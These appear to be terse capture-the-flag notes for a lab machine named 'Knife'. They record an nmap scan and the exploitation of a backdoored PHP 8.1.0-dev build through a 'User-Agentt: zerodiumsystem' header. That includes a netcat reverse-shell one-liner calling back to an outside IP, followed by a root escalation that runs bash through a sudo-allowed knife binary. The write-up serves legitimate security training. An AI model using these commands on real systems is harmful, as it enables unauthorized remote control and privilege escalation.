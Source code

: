 # Knife

10.129.205.203

## nmap

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## http 80

X-Powered-By: PHP/8.1.0-dev

```
User-Agentt: zerodiumsystem('id');
User-Agentt: zerodiumsystem('rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.172 1234 >/tmp/f');
```

## root

```sh
$ sudo -l
    (root) NOPASSWD: /usr/bin/knife
```

GTFOBins:
```sh
sudo knife exec -E 'exec "/bin/bash"'
```
